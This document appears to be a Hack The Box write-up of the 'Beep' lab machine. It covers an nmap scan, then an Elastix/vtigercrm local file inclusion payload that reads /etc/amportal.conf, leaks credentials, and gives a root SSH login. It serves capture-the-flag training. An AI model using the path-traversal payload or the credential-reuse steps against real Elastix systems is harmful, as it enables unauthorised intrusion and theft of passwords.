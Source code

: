 ```yaml
---
layout: default
title: "Beep"
tags: hackthebox linux easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Linux    | Easy       | 20     | 15 March 2017 | 10.10.10.7  |



# Skills

>* NMap
>* Local File Inclusion
>* SSH

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.7
```

This was the initial nmap scan. The key things to note are:
>* ftp-anon: Anonymous FTP login allowed (FTP code 230)
>* Files accessible from Anonymous login
>* 80/tcp open  http    Microsoft IIS httpd 7.5

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) STLS UIDL TOP EXPIRE(NEVER) PIPELINING USER AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RIGHTS=kxte Completed LISTEXT QUOTA ID OK MULTIAPPEND IMAP4 STARTTLS UIDPLUS LITERAL+ URLAUTHA0001 X-NETSCAPE CONDSTORE MAILBOX-REFERRALS CATENATE LIST-SUBSCRIBED IDLE NAMESPACE THREAD=REFERENCES SORT ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY RENAME IMAP4rev1 SORT=MODSEQ NO CHILDREN ACL UNSELECT ATOMIC
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-14T01:36:36+00:00; +1m40s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=38075%PV=Y%DS=2%DC=T%G=Y%TM=5F0D0C5
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=C3%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m39s

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   24.28 ms 10.10.14.1
2   25.11 ms 10.10.10.7
2   26.88 ms 10.10.10.5
```

# Exploitation

## Elastix LFI Exploit

```bash 
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Exploit Source: https://www.exploit-db.com/exploits/37637

After researching the services running on the machine, I discovered that a service called "Elastix" (an interface tool for Aesterix based PBX's) was vulnerable to local file inclusion meaning that I was able to read any of the files on the machine. So, as you can see from the URL above, I manipulated the current_language parameter in the graphql file to read out the servers amportal config file, that would then give me the database usernames and passwords.

```bash

FreePBX Database configuration
AMPDBHOST: Hostname where the FreePBX database resides
AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
AMPDBUSER: Username used to connect to the FreePBX database
AMPDBPASS: Password for AMPDBUSER (above)
AMPENGINE: Telephony backend engine (e.g. asterisk)
AMPMGRUSER: Username to access the Asterisk Manager Interface
AMPMGRPASS: Password for AMPMGRUSER

AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

## SSh'ing in

```bash
$ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```

Now, admittedly I think I got lucky on this one, because it just so happened that the root password for the box was also in this file. So, using the command above, I was simply able to use SSH to gain access to the root account on the machine.

```bash
root@10.10.10.7s password: 
Last login: Tue Jul 14 04:31:58 2020 from 10.10.14.23

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```

# User Flag

```bash
[root@beep ~]# cd /
[root@beep /]# cat $(find -iname "user.txt")
```

# Root Flag

```bash
[root@beep /]# cat $(find -iname "root.txt")
```